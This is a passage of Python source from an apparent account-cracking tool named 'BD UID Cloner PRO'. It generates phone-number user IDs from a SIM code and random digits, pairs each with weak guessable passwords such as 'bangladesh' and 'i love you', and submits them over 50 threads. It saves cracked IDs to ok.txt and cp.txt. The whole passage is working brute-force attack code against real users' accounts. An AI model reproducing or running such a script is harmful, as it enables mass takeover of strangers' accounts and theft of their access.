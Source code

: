 			yaari.submit(b,uid,pwx,tl)

	print(50*'_')

	print(' [💉] 𝐂𝐫𝐚𝐜𝐤 𝐩𝐫𝐨𝐜𝐞𝐬𝐬 𝐡𝐚𝐬 𝐛𝐞𝐞𝐧 𝐜𝐨𝐦𝐩𝐥𝐞𝐭𝐞𝐝')

	print(' [💉] 𝐈𝐝𝐬 𝐬𝐚𝐯𝐞𝐝 𝐢𝐧 𝐨𝐤.𝐭𝐱𝐭,𝐜𝐩.𝐭𝐱𝐭')

	print(50*'_')

	exit()

def virus3():

	user=[]

	os.system('clear')

	print(logo)

	print(" 𝐒𝐢𝐦 𝐜𝐨𝐝𝐞 𝐄𝐱𝐚𝐦𝐩𝐥𝐞 : 𝟎𝟏𝟔, 𝟎𝟏𝟕, 𝟎𝟏𝟖, 𝟎𝟏𝟗")

	kode = input(' [★] 𝐄𝐧𝐭𝐞𝐫 𝐬𝐢𝐦 𝐜𝐨𝐝𝐞: ')

	doamin = ' 𝐁𝐃 𝐔𝐈𝐃 𝐂𝐥𝐨𝐧𝐞𝐫 \033[92;1m 𝐏𝐑𝐎 '

	limit = int(input('[?] 𝐇𝐨𝐰 𝐦𝐚𝐧𝐲 𝐧𝐮𝐦𝐛𝐞𝐫𝐬 𝐝𝐨 𝐲𝐨𝐮 𝐰𝐚𝐧𝐭 𝐭𝐨 𝐚𝐝𝐝 : '))

	for nmbr in range(limit):

		koda = ''.join(random.choice(string.digits) for _ in range(2))

		kodb = ''.join(random.choice(string.digits) for _ in range(2))

		nmp = ''.join(random.choice(string.digits) for _ in range(4))

		user.append(nmp)

	with ThreadPool(max_workers=50) as yaari:

		os.system('clear')

		print(logo)

		tl = str(len(user))

		print(' \033[97;1m[🚀]  𝐓𝐨𝐭𝐚𝐥 𝐢𝐝𝐬  :\033[1;92m '+tl)

		print('\033[97;1m [🚀]  𝐔𝐬𝐚𝐫𝐚𝐠𝐞𝐧𝐭𝐬 : '+str(len(ugen)))

		print(f'\033[97;1m [🚀]\033[1;97m  𝐭𝐚𝐫𝐠𝐞𝐭 𝐬𝐢𝐦 𝐜𝐨𝐝𝐞 :\033[1;92m {kode} ')

		#print(f"\033[1;97m [🚀]  𝐂𝐡𝐨𝐢𝐜𝐞 :\033[1;92m {doamin}")

		print(' \033[1;97m[🚀]  𝐓𝐡𝐞 𝐩𝐫𝐨𝐜𝐞𝐬𝐬 𝐡𝐚𝐬 𝐛𝐞𝐞𝐧 𝐬𝐭𝐚𝐫𝐭𝐞𝐝')

		print(' [🚀]  𝐔𝐬𝐞 𝐇𝐞𝐥𝐢𝐜𝐨𝐩𝐭𝐞𝐫 𝐦𝐨𝐝𝐞 𝐢𝐟 𝐨𝐤 𝐢𝐝𝐬 😑 ')

		print(50*'_')

		for guru in user:

			uid = kode+koda+kodb+guru

			pwx = [koda+kodb+guru,kodb+guru,kode+koda+kodb,kode+kode,kode+'123',kode+'1234','bangladesh','hot boy','i love you','hot boy']
